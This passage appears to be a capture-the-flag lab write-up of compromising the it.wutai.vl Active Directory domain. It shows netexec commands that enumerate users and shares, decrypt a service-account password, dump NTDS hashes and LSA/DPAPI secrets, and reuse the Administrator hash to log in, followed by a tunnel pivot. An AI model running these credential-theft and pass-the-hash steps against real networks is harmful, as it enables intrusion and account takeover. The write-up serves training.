SCAN(V=7.98%E=4%D=3/31%OT=53%CT=%CU=%PV=Y%G=N%TM=69CBC23E%P=x86_64-pc-linux-gnu)
SEQ(SP=102%GCD=1%ISR=10A%TI=I%CI=I%II=RI%TS=A)
SEQ(SP=F9%GCD=1%ISR=110%TI=I%CI=I%II=RI%TS=A)
OPS(O1=M5B4NNT11NW7%O2=M5B4NNT11NW7%O3=M5B4NNT11NW7%O4=M5B4NNT11NW7%O5=M5B4NNT11NW7%O6=M5B4NNT11)
WIN(W1=7200%W2=7200%W3=7200%W4=7200%W5=7200%W6=7200)
ECN(R=Y%DF=N%TG=40%W=7200%O=M5B4NW7%CC=N%Q=)
T1(R=Y%DF=N%TG=40%S=O%A=S+%F=AS%RD=0%Q=)
T2(R=Y%DF=N%TG=40%W=0%S=Z%A=S%F=AR%O=%RD=0%Q=)
T3(R=Y%DF=N%TG=40%W=7200%S=O%A=S+%F=AS%O=M5B4NNT11NW7%RD=0%Q=)
T4(R=Y%DF=N%TG=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)
T6(R=Y%DF=N%TG=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)
T7(R=Y%DF=N%TG=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)
U1(R=N)
IE(R=Y%DFI=S%TG=40%CD=S)

Uptime guess: 19.237 days (since Thu Mar 12 08:05:07 2026)
TCP Sequence Prediction: Difficulty=249 (Good luck!)
IP ID Sequence Generation: Incrementing by 2
Service Info: Host: S022M100; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2026-03-31T12:46:13
|_  start_date: N/A
| smb-os-discovery: 
|   OS: Windows Server 2022 Standard 20348 (Windows Server 2022 Standard 6.3)
|   Computer name: S022M100
|   NetBIOS computer name: S022M100\x00
|   Domain name: it.wutai.vl
|   Forest name: wutai.vl
|   FQDN: S022M100.it.wutai.vl
|_  System time: 2026-03-31T05:46:13-07:00
| nbstat: NetBIOS name: S022M100, NetBIOS user: <unknown>, NetBIOS MAC: 00:50:56:94:9a:b4 (VMware)
| Names:
|   S022M100<00>         Flags: <unique><active>
|   IT<00>               Flags: <group><active>
|   IT<1c>               Flags: <group><active>
|   S022M100<20>         Flags: <unique><active>
|   IT<1e>               Flags: <group><active>
|   IT<1b>               Flags: <unique><active>
|   IT<1d>               Flags: <unique><active>
|   \x01\x02__MSBROWSE__\x02<01>  Flags: <group><active>
| Statistics:
|   00 50 56 94 9a b4 00 00 00 00 00 00 00 00 00 00 00
|   00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
|_  00 00 00 00 00 00 00 00 00 00 00 00 00 00
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled and required
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: required
|_clock-skew: mean: 1h24m00s, deviation: 3h07m50s, median: 0s
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 61246/tcp): CLEAN (Timeout)
|   Check 2 (port 3904/tcp): CLEAN (Timeout)
|   Check 3 (port 43752/udp): CLEAN (Timeout)
|   Check 4 (port 8610/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked

TRACEROUTE
HOP RTT      ADDRESS
1   16.09 ms 172.16.22.200

```

# Further enumeration

I decided to perform an enumeration on this new domain where I can see that the user pool is much smaller, but I can also see that there is a share I can write to?

```bash
└─$ netexec smb 172.16.22.200 -u 'peter.jones' -p 'Bk5+aUeROCvyVP' --users
SMB         172.16.22.200   445    S022M100         [*] Windows Server 2022 Standard 20348 x64 (name:S022M100) (domain:it.wutai.vl) (signing:True) (SMBv1:True) (Null Auth:True)
SMB         172.16.22.200   445    S022M100         [+] it.wutai.vl\peter.jones:Bk5+aUeROCvyVP 
SMB         172.16.22.200   445    S022M100         -Username-                    -Last PW Set-       -BadPW- -Description-                                    
SMB         172.16.22.200   445    S022M100         Administrator                 2023-03-27 23:53:10 0       Built-in account for administering the computer/domain
SMB         172.16.22.200   445    S022M100         Guest                         <never>             0       Built-in account for guest access to the computer/domain
SMB         172.16.22.200   445    S022M100         krbtgt                        2023-03-28 17:48:33 0       Key Distribution Center Service Account 
SMB         172.16.22.200   445    S022M100         Geoffrey.Stewart              2023-03-31 15:14:52 0        
SMB         172.16.22.200   445    S022M100         Kerry.Barrett                 2023-03-31 15:14:53 0        
SMB         172.16.22.200   445    S022M100         Cameron.Peacock               2023-03-31 15:14:53 0        
SMB         172.16.22.200   445    S022M100         Marc.Allen                    2023-03-31 15:14:53 0        
SMB         172.16.22.200   445    S022M100         Bethany.Lewis                 2023-03-31 15:14:53 0        
SMB         172.16.22.200   445    S022M100         Mitchell.Chadwick             2023-03-31 15:14:53 0        
SMB         172.16.22.200   445    S022M100         Stephen.Anderson              2023-03-31 15:14:53 0        
SMB         172.16.22.200   445    S022M100         Katie.Brooks                  2023-03-31 15:14:53 0        
SMB         172.16.22.200   445    S022M100         Judith.Thompson               2023-03-31 15:14:54 0        
SMB         172.16.22.200   445    S022M100         Kimberley.Lord                2023-03-31 15:14:54 0        
SMB         172.16.22.200   445    S022M100         Sian.Jackson                  2023-03-31 15:14:54 0        
SMB         172.16.22.200   445    S022M100         Sean.Wilson                   2023-03-31 15:14:54 0        
SMB         172.16.22.200   445    S022M100         Gordon.Moore                  2023-03-31 15:14:54 0        
SMB         172.16.22.200   445    S022M100         Benjamin.Evans                2023-03-31 15:14:54 0        
SMB         172.16.22.200   445    S022M100         Irene.Green                   2023-03-31 15:14:54 0        
SMB         172.16.22.200   445    S022M100         Connor.Cox                    2023-03-31 15:14:55 0        
SMB         172.16.22.200   445    S022M100         Howard.Smith                  2023-03-31 17:19:05 0        
SMB         172.16.22.200   445    S022M100         Ricky.Ryan                    2023-03-31 15:14:55 0        
SMB         172.16.22.200   445    S022M100         Tom.Taylor                    2023-03-31 15:14:55 0        
SMB         172.16.22.200   445    S022M100         Joseph.Scott                  2023-03-31 15:14:55 0        
SMB         172.16.22.200   445    S022M100         Mohamed.Lyons                 2023-03-31 15:14:55 0        
SMB         172.16.22.200   445    S022M100         Joan.Wheeler                  2023-03-31 15:14:55 0        
SMB         172.16.22.200   445    S022M100         Anthony.Bryan                 2023-03-31 15:14:56 0        
SMB         172.16.22.200   445    S022M100         Jodie.Sharp                   2023-03-31 15:14:56 0        
SMB         172.16.22.200   445    S022M100         Jamie.Morton                  2023-03-31 15:14:56 0        
SMB         172.16.22.200   445    S022M100         Carol.Marshall                2023-03-31 15:16:25 0        
SMB         172.16.22.200   445    S022M100         Cheryl.Atkinson               2023-03-31 15:16:25 0        
SMB         172.16.22.200   445    S022M100         Louis.Tyler                   2023-03-31 15:16:26 0        
SMB         172.16.22.200   445    S022M100         Neil.Porter                   2023-03-31 15:16:26 0        
SMB         172.16.22.200   445    S022M100         Clifford.Pope                 2023-03-31 15:16:26 0        
SMB         172.16.22.200   445    S022M100         Benjamin.Potts                2023-03-31 15:16:26 0        
SMB         172.16.22.200   445    S022M100         Kayleigh.Hutchinson           2023-03-31 15:16:26 0        
SMB         172.16.22.200   445    S022M100         Terry.Metcalfe                2023-03-31 15:16:26 0        
SMB         172.16.22.200   445    S022M100         Sylvia.Wilson                 2023-03-31 15:16:26 0        
SMB         172.16.22.200   445    S022M100         Peter.Jones                   2023-03-31 15:16:27 0        
SMB         172.16.22.200   445    S022M100         kerry.forster                 <never>             0        
SMB         172.16.22.200   445    S022M100         svc_adm                       2023-03-31 15:27:43 0        
SMB         172.16.22.200   445    S022M100         [*] Enumerated 40 local users: IT
                                                                                                                                                               
┌──(user㉿kali-almi)-[~/Downloads/Wutai/reports]
└─$ netexec smb 172.16.22.200 -u 'peter.jones' -p 'Bk5+aUeROCvyVP' --shares
SMB         172.16.22.200   445    S022M100         [*] Windows Server 2022 Standard 20348 x64 (name:S022M100) (domain:it.wutai.vl) (signing:True) (SMBv1:True) (Null Auth:True)
SMB         172.16.22.200   445    S022M100         [+] it.wutai.vl\peter.jones:Bk5+aUeROCvyVP 
SMB         172.16.22.200   445    S022M100         [*] Enumerated shares
SMB         172.16.22.200   445    S022M100         Share           Permissions     Remark
SMB         172.16.22.200   445    S022M100         -----           -----------     ------
SMB         172.16.22.200   445    S022M100         ADMIN$                          Remote Admin
SMB         172.16.22.200   445    S022M100         C$                              Default share
SMB         172.16.22.200   445    S022M100         CertEnroll      READ            Active Directory Certificate Services share
SMB         172.16.22.200   445    S022M100         IPC$            READ            Remote IPC
SMB         172.16.22.200   445    S022M100         NETLOGON        READ            Logon server share 
SMB         172.16.22.200   445    S022M100         svc$            READ,WRITE      
SMB         172.16.22.200   445    S022M100         SYSVOL          READ            Logon server share 

```

That samba share contains another of those custom encrypted password:

```bash
# ls
drw-rw-rw-          0  Tue Mar 31 14:39:56 2026 .
drw-rw-rw-          0  Fri Mar 31 17:31:07 2023 ..
drw-rw-rw-          0  Fri Mar 31 17:32:32 2023 installer
-rw-rw-rw-        148  Fri Mar 31 17:32:26 2023 svc.xml
drw-rw-rw-          0  Fri Mar 31 17:32:37 2023 temp
# cat svc.xml
<securepass>
  <username>svc_adm</password>
  <password>SPfd810e876eb51f92d526131d41fb8a158702c161e250cfbe950005daf5823cbd</password>
</securepass>

# 

```

And again I suspect the capital "**G**" is just a padding byte:

```bash
 python3 decrypter.py "SPfd810e876eb51f92d526131d41fb8a158702c161e250cfbe950005daf5823cbd"
Decrypted Password: GqaHBai!

```

But no this time it worked as expected:

```bash
┌──(user㉿kali-almi)-[~/Downloads/Wutai]
└─$ netexec ldap 172.16.22.200 -u 'svc_adm' -p 'GqaHBai!' 
LDAP        172.16.22.200   389    S022M100         [*] Windows Server 2022 Build 20348 (name:S022M100) (domain:it.wutai.vl) (signing:None) (channel binding:Never)
LDAP        172.16.22.200   389    S022M100         [+] it.wutai.vl\svc_adm:GqaHBai! 

```

Now Sharphound is taking forever but this new user seems able to add himself to the IT group?



This account can also write gpo?



Seems like it can also get to the domain?



And it was actually true:

```bash
└─$ netexec smb 172.16.22.200 -u svc_adm -p 'GqaHBai!' --ntds
SMB         172.16.22.200   445    S022M100         [*] Windows Server 2022 Standard 20348 x64 (name:S022M100) (domain:it.wutai.vl) (signing:True) (SMBv1:True) (Null Auth:True)
SMB         172.16.22.200   445    S022M100         [+] it.wutai.vl\svc_adm:GqaHBai! 
SMB         172.16.22.200   445    S022M100         [-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied 
SMB         172.16.22.200   445    S022M100         [+] Dumping the NTDS, this could take a while so go grab a redbull...
SMB         172.16.22.200   445    S022M100         Administrator:500:aad3b435b51404eeaad3b435b51404ee:fe23a3b3cf1ebb0d2c0aaf1f849db444:::
SMB         172.16.22.200   445    S022M100         Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         172.16.22.200   445    S022M100         krbtgt:502:aad3b435b51404eeaad3b435b51404ee:5b65d45e6a11e3dea94039c37c55fcdf:::
SMB         172.16.22.200   445    S022M100         it.wutai.vl\Geoffrey.Stewart:1105:aad3b435b51404eeaad3b435b51404ee:910b55157363fe6c22e24722d56acab3:::
SMB         172.16.22.200   445    S022M100         it.wutai.vl\Kerry.Barrett:1106:aad3b435b51404eeaad3b435b51404ee:8b72fab19a39807e6cf5db329a073f6d:::
SMB         172.16.22.200   445    S022M100         it.wutai.vl\Cameron.Peacock:1107:aad3b435b51404eeaad3b435b51404ee:3ac03a14b42c793b70a1f2f6f47f3563:::
SMB         172.16.22.200   445    S022M100         it.wutai.vl\Marc.Allen:1108:aad3b435b51404eeaad3b435b51404ee:73e18359e7a3388e7fc6601e2b9e30a0:::
SMB         172.16.22.200   445    S022M100         it.wutai.vl\Bethany.Lewis:1109:aad3b435b51404eeaad3b435b51404ee:ffb39a425f9719dc3e2f3b9c0566be9f:::
SMB         172.16.22.200   445    S022M100         it.wutai.vl\Mitchell.Chadwick:1110:aad3b435b51404eeaad3b435b51404ee:71185a1a42ad70b6dd0c6a0daaca03bf:::
SMB         172.16.22.200   445    S022M100         it.wutai.vl\Stephen.Anderson:1111:aad3b435b51404eeaad3b435b51404ee:c70e27f5abf8f2a5e85527fce19df8a5:::
SMB         172.16.22.200   445    S022M100         it.wutai.vl\Katie.Brooks:1112:aad3b435b51404eeaad3b435b51404ee:516e995941cfb2bbc95b017ff414f336:::
SMB         172.16.22.200   445    S022M100         it.wutai.vl\Judith.Thompson:1113:aad3b435b51404eeaad3b435b51404ee:161a8c1452836a7dee93bf8ffa8f49a6:::
SMB         172.16.22.200   445    S022M100         it.wutai.vl\Kimberley.Lord:1114:aad3b435b51404eeaad3b435b51404ee:cf0a5a6faa4afef4b06d12c9d6a90e69:::
SMB         172.16.22.200   445    S022M100         it.wutai.vl\Sian.Jackson:1115:aad3b435b51404eeaad3b435b51404ee:f9e437d6a150046923a11dcdefc29e0a:::
SMB         172.16.22.200   445    S022M100         it.wutai.vl\Sean.Wilson:1116:aad3b435b51404eeaad3b435b51404ee:7855534724db86503285a20cc48fd791:::
SMB         172.16.22.200   445    S022M100         it.wutai.vl\Gordon.Moore:1117:aad3b435b51404eeaad3b435b51404ee:d02b60c0701ea1a03dbfc72373bbac9c:::
SMB         172.16.22.200   445    S022M100         it.wutai.vl\Benjamin.Evans:1118:aad3b435b51404eeaad3b435b51404ee:8dda5538b31eb27d1e5f8d1fad01dfda:::
SMB         172.16.22.200   445    S022M100         it.wutai.vl\Irene.Green:1119:aad3b435b51404eeaad3b435b51404ee:3e4a0382606253f96ae2802b993ce704:::
SMB         172.16.22.200   445    S022M100         it.wutai.vl\Connor.Cox:1120:aad3b435b51404eeaad3b435b51404ee:828805e02f4558c6522ac9c19f79e107:::
SMB         172.16.22.200   445    S022M100         it.wutai.vl\Howard.Smith:1121:aad3b435b51404eeaad3b435b51404ee:6dfcb20c87d04f9a4f9605f2413395d4:::
SMB         172.16.22.200   445    S022M100         it.wutai.vl\Ricky.Ryan:1122:aad3b435b51404eeaad3b435b51404ee:865656ac826623026cde1da3916579f4:::
SMB         172.16.22.200   445    S022M100         it.wutai.vl\Tom.Taylor:1123:aad3b435b51404eeaad3b435b51404ee:2c9cff6706271b0fdfaca51074328729:::
SMB         172.16.22.200   445    S022M100         it.wutai.vl\Joseph.Scott:1124:aad3b435b51404eeaad3b435b51404ee:2c5ea8bb9062f88c2852a88e7c6afac2:::
SMB         172.16.22.200   445    S022M100         it.wutai.vl\Mohamed.Lyons:1125:aad3b435b51404eeaad3b435b51404ee:69cdf906d42b48f81e05aa03ad5a7f53:::
SMB         172.16.22.200   445    S022M100         it.wutai.vl\Joan.Wheeler:1126:aad3b435b51404eeaad3b435b51404ee:df6df671a1c0e4bc8bfc652eb889c367:::
SMB         172.16.22.200   445    S022M100         it.wutai.vl\Anthony.Bryan:1127:aad3b435b51404eeaad3b435b51404ee:43c4ab21513e248c48b2a900c662501a:::
SMB         172.16.22.200   445    S022M100         it.wutai.vl\Jodie.Sharp:1128:aad3b435b51404eeaad3b435b51404ee:92aa7a2096b9f67dc72d7a293ad47be5:::
SMB         172.16.22.200   445    S022M100         it.wutai.vl\Jamie.Morton:1129:aad3b435b51404eeaad3b435b51404ee:b86f75914eba7f528594d74672518ff7:::
SMB         172.16.22.200   445    S022M100         it.wutai.vl\Carol.Marshall:1131:aad3b435b51404eeaad3b435b51404ee:2e09a1c0df112e9e5df183b5b02bf6fc:::
SMB         172.16.22.200   445    S022M100         it.wutai.vl\Cheryl.Atkinson:1132:aad3b435b51404eeaad3b435b51404ee:67d2f54bd42cdade4e462503a2906a48:::
SMB         172.16.22.200   445    S022M100         it.wutai.vl\Louis.Tyler:1133:aad3b435b51404eeaad3b435b51404ee:c393fd4abdfab287999cd6a6c8705ebe:::
SMB         172.16.22.200   445    S022M100         it.wutai.vl\Neil.Porter:1134:aad3b435b51404eeaad3b435b51404ee:23401c6c31ca45b7133e1e2985850e28:::
SMB         172.16.22.200   445    S022M100         it.wutai.vl\Clifford.Pope:1135:aad3b435b51404eeaad3b435b51404ee:a679353ea3e344194016ab7b0f58e629:::
SMB         172.16.22.200   445    S022M100         it.wutai.vl\Benjamin.Potts:1136:aad3b435b51404eeaad3b435b51404ee:bbb90ad8dcf17b8e700cda6081e6b42d:::
SMB         172.16.22.200   445    S022M100         it.wutai.vl\Kayleigh.Hutchinson:1137:aad3b435b51404eeaad3b435b51404ee:60c1d856cca70f44e36b455eb31b49d8:::
SMB         172.16.22.200   445    S022M100         it.wutai.vl\Terry.Metcalfe:1138:aad3b435b51404eeaad3b435b51404ee:23193ac0f23c1400e1c4365207427cd3:::
SMB         172.16.22.200   445    S022M100         it.wutai.vl\Sylvia.Wilson:1139:aad3b435b51404eeaad3b435b51404ee:90a5b35efabd1039bb700f63f89e5b56:::
SMB         172.16.22.200   445    S022M100         it.wutai.vl\Peter.Jones:1140:aad3b435b51404eeaad3b435b51404ee:d4df24a3c0595da67c074e3f6ce546e4:::
SMB         172.16.22.200   445    S022M100         it.wutai.vl\kerry.forster:1141:aad3b435b51404eeaad3b435b51404ee:ea21b1d3ca228dc4c96cd591246ffcfe:::
SMB         172.16.22.200   445    S022M100         it.wutai.vl\svc_adm:1143:aad3b435b51404eeaad3b435b51404ee:be7e7cb165c21959255f687fa871e225:::
SMB         172.16.22.200   445    S022M100         S022M100$:1000:aad3b435b51404eeaad3b435b51404ee:0a22689ac04a367963640ec785ee2f23:::
SMB         172.16.22.200   445    S022M100         WUTAI$:1103:aad3b435b51404eeaad3b435b51404ee:208498965649e94fc59c407a7d8030b6:::
SMB         172.16.22.200   445    S022M100         EU-JUNON$:1147:aad3b435b51404eeaad3b435b51404ee:ac8fe8753ded76848f9908736e7b28d3:::
SMB         172.16.22.200   445    S022M100         [+] Dumped 43 NTDS hashes to /home/user/.nxc/logs/ntds/172.16.22.200_None_2026-04-01_092003.ntds of which 40 were added to the database
SMB         172.16.22.200   445    S022M100         [*] To extract only enabled accounts from the output file, run the following command: 
SMB         172.16.22.200   445    S022M100         [*] cat /home/user/.nxc/logs/ntds/172.16.22.200_None_2026-04-01_092003.ntds | grep -iv disabled | cut -d ':' -f1
SMB         172.16.22.200   445    S022M100         [*] grep -iv disabled /home/user/.nxc/logs/ntds/172.16.22.200_None_2026-04-01_092003.ntds | cut -d ':' -f1
```

And grab more stuff which shown to be not so usefull:

```bash
┌──(user㉿kali-almi)-[~/Downloads/Wutai]
└─$ netexec smb 172.16.22.200 -d it.wutai.vl -u Administrator -H fe23a3b3cf1ebb0d2c0aaf1f849db444 --lsa --dpapi
SMB         172.16.22.200   445    S022M100         [*] Windows Server 2022 Standard 20348 x64 (name:S022M100) (domain:it.wutai.vl) (signing:True) (SMBv1:True) (Null Auth:True)
SMB         172.16.22.200   445    S022M100         [+] it.wutai.vl\Administrator:fe23a3b3cf1ebb0d2c0aaf1f849db444 (Pwn3d!)
SMB         172.16.22.200   445    S022M100         [+] Dumping LSA secrets
SMB         172.16.22.200   445    S022M100         IT\S022M100$:aes256-cts-hmac-sha1-96:438657d46a7d95b966b8c492555d26277c6bbb0b00d13f181a5ba7645f08dddb
SMB         172.16.22.200   445    S022M100         IT\S022M100$:aes128-cts-hmac-sha1-96:441df336ca213704675d14811a6df3ef
SMB         172.16.22.200   445    S022M100         IT\S022M100$:des-cbc-md5:9d3102927f62e32f
SMB         172.16.22.200   445    S022M100         IT\S022M100$:plain_password_hex:fa664a85d6cb224b751da60f5fdd1356d3ab0b32636689bd28d906c96e801e04da130b44452891a9762859bb9fb66843dcfd05cf53fd3f21b62522c3f6a3adbd10c191afc4983a4d41ea2bc14b60be01df4cc3afd58ec7334008b07d8d22b5871cf4469f61de10137b7da2659760cddfa4cde5b6675a1cccebf392221a0cc28d5ba83dabb71400377a14ec88dddc9ec4f2337e33565c1da47d6cc8cceee2b381a18407847f32a6cf23020e20578a6f0b138124a5e8c3f363540861d5adbdc01327ef8755ce39f95f36d004049159d6bdadc5ed824f9c74fcff1e4919218aec8c44b989ef3cbb04bc775fcc7c44117577
SMB         172.16.22.200   445    S022M100         IT\S022M100$:aad3b435b51404eeaad3b435b51404ee:09aa2d94b98fb54ab658a1f182d05087:::
SMB         172.16.22.200   445    S022M100         dpapi_machinekey:0x0aef6c272166e2f4ff21bc8cf1fe6e5879adf131
dpapi_userkey:0x955fe721cec3fe97bccb40df4ab831d9e932b5e8
SMB         172.16.22.200   445    S022M100         [+] Dumped 6 LSA secrets to /home/user/.nxc/logs/lsa/172.16.22.200_None_2026-03-31_154228.secrets and /home/user/.nxc/logs/lsa/172.16.22.200_None_2026-03-31_154228.cached
SMB         172.16.22.200   445    S022M100         [+] User is Domain Administrator, exporting domain backupkey...
SMB         172.16.22.200   445    S022M100         [*] Collecting DPAPI masterkeys, grab a coffee and be patient...
SMB         172.16.22.200   445    S022M100         [+] Got 18 decrypted masterkeys. Looting secrets...
                                                                                                                                   
```

And get another flag:

```bash
─$ evil-winrm-py -i 172.16.22.200 -u Administrator -H fe23a3b3cf1ebb0d2c0aaf1f849db444
          _ _            _                             
  _____ _(_| |_____ __ _(_)_ _  _ _ _ __ ___ _ __ _  _ 
 / -_\ V | | |___\ V  V | | ' \| '_| '  |___| '_ | || |
 \___|\_/|_|_|    \_/\_/|_|_||_|_| |_|_|_|  | .__/\_, |
                                            |_|   |__/  v1.6.0

[*] Connecting to '172.16.22.200:5985' as 'Administrator'
evil-winrm-py PS C:\Users\Administrator\Documents> cd ..
evil-winrm-py PS C:\Users\Administrator> cd desktop
evil-winrm-py PS C:\Users\Administrator\desktop> cat flag.txt
WUTAI{a87816a5a5f57df2a7bb0fde28a0784e}
evil-winrm-py PS C:\Users\Administrator\desktop>


```

Now seems there is a third subnet ?

```bash
vil-winrm-py PS C:\shares> ipconfig

Windows IP Configuration


Ethernet adapter Internal-3:

   Connection-specific DNS Suffix  . : 
   IPv4 Address. . . . . . . . . . . : 172.16.23.200
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . : 

Ethernet adapter Internal-2:

   Connection-specific DNS Suffix  . : 
   IPv4 Address. . . . . . . . . . . : 172.16.22.200
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . : 
evil-winrm-py PS C:\shares>

```

# Post Exploitaition

Now I setup a Ligolo-Ng tunnel to be able to reach the last domain on the **.23** subnet and I can see the last domain:  


And this is the new domain:

```bash
┌──(user㉿kali-almi)-[~/Downloads/Wutai]
└─$ netexec smb 172.16.23.0/24
SMB         172.16.23.200   445    S022M100         [*] Windows Server 2022 Standard 20348 x64 (name:S022M100) (domain:it.wutai.vl) (signing:True) (SMBv1:True) (Null Auth:True)
SMB         172.16.23.250   445    S022M110         [*] Windows Server 2022 Build 20348 x64 (name:S022M110) (domain:wutai.vl) (signing:True) (SMBv1:None) (Null Auth:True)
Running nxc against 256 targets ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━ 100% 0:00:00
                                                                                           
```

Now since it is same forest trust, can I perform a Raisechild? Seems like no so I will move on to the last machine.

&nbsp;

&nbsp;